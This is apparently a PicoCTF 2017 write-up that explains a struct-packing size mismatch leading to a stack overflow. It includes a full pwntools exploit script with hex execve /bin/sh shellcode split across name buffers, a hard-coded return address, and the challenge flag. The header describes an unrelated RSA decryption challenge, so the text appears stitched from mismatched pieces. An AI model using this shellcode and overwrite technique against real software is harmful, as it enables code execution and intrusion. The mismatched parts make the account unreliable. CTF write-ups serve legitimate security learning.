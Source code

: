 # PicoCTF_2017: Choose

**Category:** Master
**Points:** 175
**Description:**

>Another message encrypted with RSA. It looks like some parameters are missing. Can you still decrypt it? [Message](clue.txt)

**Hint:**

>Is there some way to create a multiple of p given the values you have?
Fermat's Little Theorem may be helpful

## Write-upThe vulnerability was a wrong assumption that a group of structs were the same size in memory. Specifically, the programmer assumed that these structs were the same size (`0x14 bytes`):

```
#define ENEMNAMELEN 12

typedef struct _orc{
    char type;
    short damage;
    int health;
    char name[ENEMNAMELEN];
} orc;

typedef struct _unicorn{
    char type;
    int health;
    short damage;
    char name[ENEMNAMELEN];
} unicorn;

```

Although both structs contain the same fields with the same types, they are specified in a different order. Therefore, due to struct packing the  `unicorn`  struct actually occupies  `0x18 bytes`. The memory structures are as follows:

```
orc (0x14 bytes):

[ type ][ xxxx ][ damage       ]
[ health                       ]
[ name                         ]
[ name                         ]
[ name                         ]

unicorn (0x18 bytes):

[ type ][ xxxxxxxxxxxxxxxxxxxx ]
[ health                       ]
[ damage       ][ xxxxxxxxxxxx ]
[ name                         ]
[ name                         ]
[ name                         ]

```

Notice how the  `unicorn`  struct is unable to pack the  `char`  and  `short`  fields into one 4-byte space because the  `int health`  must be aligned.

Then later, the following array was created to store user-controlled enemy struct data:

```
#define NUMMONSTERS 11
#define ENEMSIZE sizeof(orc)

char enemies[ENEMSIZE * NUMMONSTERS];

```

This error allowed an attacker to craft an input that caused a buffer overflow onto a saved return address. For example, if the attacker specified all unicorns, the storage functions would overflow the  `enemies`array.

The return address could be overwritten with the address of shellcode placed on the stack.

ASLR was disabled so it was possible to hard-code the stack address that held our shellcode. However, in order to find it, you could simply use existing functionality in the program. See the following lines:

```
void printEnemy(char * enemy){
    ...
    if(ctfer.wizardSight){
        printf("Your sight shows the enemy at %p\n", enemy);
    }
}

```

So if we had  `wizardSight`, the program would print out stack addresses. How do we get that?

```
void processWinnings(char type){
    switch(type){
        ...
        case 'T':
        case 't':
            printf("You found %s\n", winnings[5]);
            ctfer.wizardSight = 1;
            break;
        ...
    }
}

```

Ok, so in order to get a stack address, we simply have to fight a troll and beat it. Then we can calculate the offset to the first name buffer where we will store our shellcode.

However, we quickly run into a problem: the name buffer only stores  `12 bytes`  and there is no way we can fit exexcve shellcode into that small a buffer. However, we have  `11`  name buffers to use.

My solution was to use something I call "leapfrog shellcode" for lack of a better name. Basically, I split the shellcode into  `<10 byte`  sections (making sure to keep instructions intact). Then I appended short jump instructions that would jump to the next name buffer where execution could continue.

In memory that looked like this:

```
enemy 1:  [junk]
          [junk]
          [junk]
          [shellcode]      <-- start address
          [shellcode]
          [shellcode jmp] -.
enemy 2:  [junk]           |
          [junk]           | skip the struct junk
          [junk]           |
          [shellcode] <----'
          [shellcode]
          [shellcode jmp]

etc...

```

# Script

```
# By Harrison Green <hgarrereyn>

from pwn import *

# Found on shell-storm.org:
# http://shell-storm.org/shellcode/files/shellcode-811.php

# Shellcode (/bin/sh on 32 bit)
# 08048060 <_start>:
 # 8048060: 31 c0                 xor    %eax,%eax
 # 8048062: 50                    push   %eax
 # 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 # 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 # 804806d: 89 e3                 mov    %esp,%ebx
 # 804806f: 89 c1                 mov    %eax,%ecx
 # 8048071: 89 c2                 mov    %eax,%edx
 # 8048073: b0 0b                 mov    $0xb,%al
 # 8048075: cd 80                 int    $0x80
 # 8048077: 31 c0                 xor    %eax,%eax
 # 8048079: 40                    inc    %eax
 # 804807a: cd 80                 int    $0x80

# Relative jump:
#  EB CB - where CB is a signed integer to be added to eip


# Modified leapfrog shellocode with added short jumps:

### Name 1
# 31 c0
# 50
# 68 2f 2f 73 68
name1 = '\x31\xc0\x50\x68\x2f\x2f\x73\x68' + '\xeb\x0e'

### Name 2
# 68 2f 62 69 6e
# 89 e3
# 89 c1
name2 = '\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1' + '\xeb\x0d'

### Name 3
# 89 c2
# b0 0b
# cd 80
# 31 c0
name3 = '\x89\xc2\xb0\x0b\xcd\x80\x31\xc0' + '\xeb\x0e'

### Name 4
# 40
# cd 80
name4 = '\x40\xcd\x80'


# Heap layout:
# <name 1 : 12 bytes>
# <junk : 12 bytes>
# <name 2 : 12 bytes> ...


sock = remote('shell2017.picoctf.com', 47601)

# Select 11 unicorns
sock.send(('u\n' * 11))

# Add shellcode
sock.send(name1 + '\n')
sock.send(name2 + '\n')
sock.send(name3 + '\n')
sock.send(name4 + '\n')

# Fill the rest of the names
for i in range(6):
    sock.send('name\n')

# jump to shellcode by overwriting the return address with 0xffffdb9a
sock.send('aa' + '\x9a\xdb\xff\xff' + '\n')

# flee unicorns
sock.send(('f\n' * 11))

# flee dragon
sock.send(('f\n' * 6))

# Game exits but actually jumps to shellcode

# We've got shell
sock.interactive()
```

So, the flag is `c3b7d7d3659f98d19c8a510718e45575`
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE0MDAxMDgwOTVdfQ==
-->